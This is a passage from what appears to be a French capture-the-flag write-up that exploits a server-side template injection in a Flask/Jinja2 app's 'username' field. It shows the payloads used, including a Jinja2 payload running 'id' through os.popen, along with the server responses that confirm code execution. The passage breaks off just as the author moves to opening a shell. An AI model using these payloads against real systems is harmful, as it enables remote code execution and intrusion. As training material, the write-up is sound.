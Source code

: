 On va test une SSTI :
```
{
	"username":"{{7*7}}"
}
```
```
<!DOCTYPE html>
<html lang="en">
 <head>
   <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Greeting</title>
 </head>
 <body>
   <h1>Sorry, 49, our chatbot server is currently under development.</h1>
 </body>
</html>
```
Il fait bien l'opération 7x7=49, le paramètre **username** et vulnérable à une SSTI (*Server Side Template Injection*). On test encore :
```
{
	"username":"{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}"
}
```
```
<html lang=en>
  <head>
    <title>jinja2.exceptions.UndefinedError: &#39;_self&#39; is undefined
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    [...]
```
Bon, j'ai le nom de l'user :
```
[...]
File <cite class="filename">"/home/azrael/.local/lib/python3.10/site-packages/flask/app.py"</cite>
[...]
```
Et je sais aussi qu'il y a serveur avec **jinja2** qui tourne avec python, on va donc envoyé des payloads python (Les payloads que je test viennent de PayloadsAllTheThings)
```
{
	"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}"
}
```
```
<!DOCTYPE html>
<html lang="en">
 <head>
   <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Greeting</title>
 </head>
 <body>
   <h1>Sorry, uid=1000(azrael) gid=1000(azrael) groups=1000(azrael)
, our chatbot server is currently under development.</h1>
 </body>
</html>
```
On peux donc faire une RCE (*Remote Code Execution*) et avoir un shell
```
{
```